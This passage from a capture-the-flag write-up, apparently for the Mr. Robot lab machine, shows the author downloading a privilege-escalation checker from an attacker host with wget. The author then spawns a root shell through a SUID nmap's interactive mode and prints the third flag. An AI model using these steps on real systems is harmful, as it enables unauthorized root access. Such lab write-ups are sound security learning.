 ```
robot@linux:~$ wget 192.168.1.100/unix-privesc-check -O /tmp/unix-privesc-check                   
--xxxx-xx-xx xx:xx:xx--  http://192.168.1.100/unix-privesc-check
Connecting to 192.168.1.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36800 (36K)
Saving to: ‘/tmp/unix-privesc-check’

100%[======================================>] 36,800      --.-K/s   in 0s      

xxxx-xx-xx xx:xx:xx (194 MB/s) - ‘/tmp/unix-privesc-check’ saved [36800/36800]

robot@linux:~$ bash /tmp/unix-privesc-check detailed > output.txt
robot@linux:~$ grep WARNING output.txt
// output truncated
WARNING: /usr/local/bin/nmap is SUID root. /usr/local/bin/nmap contains the string /proc/net/route. The user robot can write to /proc/net
// output truncated
```

It turns out that there is an nmap on the system! Furthermore, it has the SUID flag set. Since nmap has an interactive mode and we can execute commands in that mode, let us load a new shell on top of it:

```
robot@linux:/tmp$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh

# whoami
root
```

Hurray! We are root! With that, the 3rd key is not that difficult to find:

```
# ls /root
firstboot_done	key-3-of-3.txt

# cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

---

# Lessons Learnt

* I've learnt the importance of checking every interesting files shown up on scanners like nikto. Without finding out about license.txt, I'll need to gain access the hard way via bruteforcing.
* Before trying out kernel exploits to gain root privileges, always consider the easier option first (insecure permissions, misconfigured services, etc). Why hack down the front door when the door itself it unlocked?